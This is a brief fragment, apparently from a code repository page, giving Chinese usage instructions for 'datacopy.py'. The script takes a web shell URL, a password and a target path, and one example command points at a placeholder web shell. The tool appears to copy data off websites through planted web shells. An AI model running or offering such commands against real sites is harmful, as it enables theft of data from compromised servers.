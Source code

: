 datacopy：

# 用法：
datacopy.py    shell地址    密码     路径（默认网站根目录）

datacopy.py    http://www.exmaple.com/1.php    password     c://path
